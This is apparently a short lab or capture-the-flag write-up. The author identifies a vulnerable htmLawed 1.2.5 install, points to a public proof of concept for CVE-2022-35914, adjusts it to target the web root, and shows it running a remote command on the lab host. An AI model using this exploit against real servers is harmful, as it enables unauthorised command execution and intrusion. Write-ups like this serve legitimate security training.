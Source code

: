 Looked up htmLawed 1.2.5 for well-known vulnerabilities.

Found CVE-2022-35914, and POC in [https://github.com/cosad3s/CVE-2022-35914-poc](https://github.com/cosad3s/CVE-2022-35914-poc).

I modify the exploit code to point to the root path on the webserver (as that is where the htmlawed test page is hosted... even though the POST form has the action to send it to `htmLawedTest.php`)

![](./assets/modified-web-ui.png)

... that took me a while to find.

```
┌──(kali㉿kali)-[~/CVE-2022-35914-poc]
└─$ python CVE-2022-35914.py -u http://law -c 'echo hello world'
  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  

[+] Command output (Return code: 0):
 hello world
```

It works!
